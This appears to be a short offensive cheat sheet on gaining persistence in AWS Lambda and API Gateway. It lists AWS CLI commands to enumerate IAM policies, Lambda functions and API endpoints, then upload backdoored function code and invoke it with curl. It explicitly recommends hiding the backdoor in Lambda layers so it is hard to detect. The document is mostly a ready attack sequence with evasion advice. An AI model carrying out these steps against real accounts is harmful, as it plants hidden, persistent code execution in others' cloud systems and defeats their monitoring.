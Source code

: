 # AWS Lambda and API Gateway Persistence

### If the user has sufficient rights in the lambda function, its possible to download the source code, add a backdoor to it and upload. Everytime the lambda executes, the malicious code will also execute.

### Always try to update the code of layers (depedencies) instead of the actual lambda code, this way our backdoor will be difficult to detect.

 - aws sts get-caller-identity (Checking which user is executing)

 - aws iam list-attached-user-policies --user-name USER_NAME (Checking all managed policies attached to the user)

 - aws iam get-policy-version --policy-arn ARN --version-id ID (Checking information about a specific policy)

 - aws lambda list-functions --region REGION (Listing all lambda functions)

 - aws lambda get-function --function-name NAME (Listing information about the specified lambda)

### Download and analyze the code, then:

 - aws lambda get-policy --function-name NAME --profile PROFILE --region REGION

### We can grab informations like id, who can invoke and other details with this command (Helps to build the query to execute the lambda function).

 - aws apigateway get-rest-apis (Listing Rest API'S)

 - aws apigateway get-rest-api --rest-api-id ID (Listing information about a specific API)

 - aws apigateway get-resources --rest-api-id ID (Listing information about endpoints)

 - aws apigateway get-resource --rest-api-id ID --resource-id ID (Listing information about a specific endpoint)

 - aws apigateway get-method --rest-api-id ApiID --resource-id ID --http-method METHOD (Listing method information for the endpoint) (Test various methods to see if the API supports it)

 - aws apigateway get-stages --rest-api-id ID (List all versions of a rest API)

 - aws apigateway get-stage --res-api-id ID --stage-name NAME (Getting information about a specific version)

## Uploading the backdoor code to aws lambda function

 - aws lambda update-function-code --function-name FUNCTION --zip-file fileb://my-function/EXAMPLE 

## Invoke the function

 - curl https://uj3948ie.execute-api.us-east-2.amazonaws.com/default/EXAMPLE

### Where:

#### 1. API-ID -> uj3948ie

#### 2. Region -> us-east-2

#### 3. Resource (Endpoint) -> EXAMPLE

#### 4. Method -> Get

#### 5. Stage (Version) -> default

#### 6. API-Key -> None

### All these details are gathered during enumeration
